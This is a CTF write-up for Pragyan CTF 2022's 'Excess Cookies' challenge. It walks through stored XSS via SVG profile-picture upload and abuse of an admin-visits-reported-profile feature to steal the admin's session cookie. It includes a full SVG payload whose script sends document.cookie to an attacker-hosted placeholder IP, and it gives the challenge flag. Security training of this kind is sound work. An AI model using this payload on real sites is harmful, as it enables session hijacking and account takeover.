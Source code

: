 # Pragyan CTF 2022: Excess Cookies
## Write-Up

1) On noticing the name of this challenge, you will get to know that this is something related to XSS and cookie stealing.

2) On exploring for XSS in each and every user text input field, you wont be able to find any XSS. But remember, XSS not only happens with user input field. It can happens by means of file upload also.

3) So we will get ended up in file upload section for profile pic, where you can able to upload picture as jpg, jpeg, png and also svg file.

4) Now we got a way to do XSS, that is by means of uploading SVG file. Next, our ultimate aim is to steal admin session cookie.

5) How this can be done is that, there is a feature of reporting a user and making admin to visit the reported user profile.

6) By exploiting this feature of admin visiting reported user profile, we need to steal admin cookie.

7) So to do this, we need to upload a SVG file which contains XSS as profile pic. Then on reporting ourself, admin will make a visit to our profile page because of which XSS will get triggered and admin cookie will get stolen.

Sample SVG-XSS payload for cookie stealing is,

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      fetch('http://<your-public-IP>?c='+document.cookie);
   </script>
</svg>
```

By using the above payload, you will be able to find the ADMIN cookie in the GET request of you hosted server.

8) Then by logging in as ADMIN with the cookie, you will find the flag in one of the post of admin.

The flag is 
```
p_ctf{x33_a4d_svg_m4k3s_b3st_p41r}
```